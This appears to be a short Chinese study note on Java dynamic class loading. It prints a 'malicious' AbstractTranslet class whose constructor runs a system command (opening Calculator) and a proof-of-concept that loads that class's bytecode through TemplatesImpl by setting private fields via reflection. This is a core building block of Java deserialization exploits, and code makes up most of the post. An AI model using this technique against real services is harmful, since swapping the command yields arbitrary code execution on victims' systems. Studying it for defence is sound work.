

## 类的动态加载


类加载器总的流程：

ClassLoader —-> SecureClassLoader —> URLClassLoader —-> APPClassLoader —-> loadClass() —-> findClass()


### TemplatesImpl加载字节码

继承了ClassLoader




定义一个恶意类

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class TemplatesCalc extends AbstractTranslet {
    public TemplatesCalc() {
        try {
            Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```


利用POC

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Main {
    public static void main(String[] args) throws ClassNotFoundException, IOException, InstantiationException, IllegalAccessException, NoSuchMethodException, InvocationTargetException, NoSuchFieldException, TransformerConfigurationException {


        byte[] code = Files.readAllBytes(Paths.get("/home/Downloads/TemplatesCalc.class"));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","Test");	//不能为null
        setFieldValue(templates,"_bytecodes",new byte[][]{code});	//不能为null
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());	//需要是TransformerFactoryImpl对象
        templates.newTransformer();

    }

    private static void setFieldValue(Object obj, String code, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field field = obj.getClass().getDeclaredField(code);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```

